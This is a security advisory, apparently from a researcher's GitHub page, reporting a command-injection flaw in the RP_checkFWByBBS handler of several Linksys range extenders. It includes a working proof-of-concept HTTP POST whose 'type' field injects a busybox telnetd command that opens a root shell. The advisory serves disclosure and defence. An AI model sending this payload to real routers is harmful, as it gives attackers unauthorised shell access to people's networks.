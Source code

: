 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_checkFWByBBS` function, `type、ch、ssidhex、security、extch、pwd、mode、ip、nm、gw` is directly passed by the attacker, so we can control the `type、ch、ssidhex、security、extch、pwd、mode、ip、nm、gw` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `type` as **';busybox telnetd -l /bin/sh -p 2230;'** , and the router will excute it,such as:

```http
POST /goform/RP_checkFWByBBS HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 95
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=7kTxcQbcu2IqpHWPoAcqLGsEjrn7k6tr
Upgrade-Insecure-Requests: 1

type=';busybox telnetd -l /bin/sh -p 2230;'&ch=&ssidhex=&security=&extch=&pwd=&mode=&ip=&nm=&gw
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

